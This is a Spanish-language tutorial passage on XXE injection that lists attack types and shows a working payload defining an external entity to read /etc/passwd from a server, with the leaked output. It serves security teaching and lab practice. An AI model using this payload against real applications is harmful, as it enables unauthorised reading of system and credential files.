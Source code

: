 Los `XXE` son un tipo de `entidad personalizada XML` cuyos `valores definidos` se cargan desde fuera de la `DTD` en la que se declaran. Las `entidades externas` son especialmente interesantes desde la `perspectiva de seguridad` porque permiten que una `entidad` se defina en base al `contenido de una ruta de archivo` o una `URL`

## Tipos de ataques XXE

Existen varios `tipos de ataques XXE`:

- `Explotar un XXE para leer archivos` - Se define una `entidad externa` que contiene el `contenido de un archivo` y este se devuelve en la `respuesta de la aplicación`
    
- `Explotar un XXE para llevar a cabo ataques SSRF` - Una `entidad externa` se define en base a una `URL` de un `sistema back-end`
    
- `Explotar un blind XXE exfiltrando datos con interacciones OBB (out-of-band)` - Se transmiten `datos sensibles` desde el `servidor de la aplicación` hacia un `sistema controlado por el atacante`
    
- `Explotar un blind XXE para obtener datos mediante mensajes de error` - El `atacante` provoca un `mensaje de error` el cual contiene `datos sensibles`

### Explotar un XXE para leer archivos

Para realizar un `ataque de inyección XXE` que lea un `archivo arbitrario` del `sistema de archivos del servidor`, debemos modificar el `XML enviado` de dos formas:
 
 - Introducir un `elemento DOCTYPE` que defina una `entidad externa` que contenga la `ruta al archivo`
    
- Editar un `valor de dato` en el `XML` que se devuelva en la `respuesta de la aplicación`, para hacer uso de la `entidad externa definida`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

La `aplicación` no implementa `defensas` contra `ataques XXE`, por lo que podemos `explotar la vulnerabilidad XXE` para leer el archivo `/etc/passwd` enviando el siguiente `payload`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Este `payload XXE` define una `entidad externa` `&xxe;` cuyo `valor` es el `contenido` del archivo `/etc/passwd` y usa la `entidad` dentro del `valor productId`. Esto provoca que la `respuesta de la aplicación` incluya el `contenido del archivo`

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

En `entornos reales` a menudo habrá un `gran número de valores de datos` dentro del `XML enviado` y cualquiera de ellos podría usarse para ver la `respuesta de la aplicación`. Por lo tanto, deberemos `testear` cada `nodo de datos` en el `XML` de manera `individual`, utilizando una `entidad definida` y verificando si se refleja en la respuesta `respuesta` del `servidor`
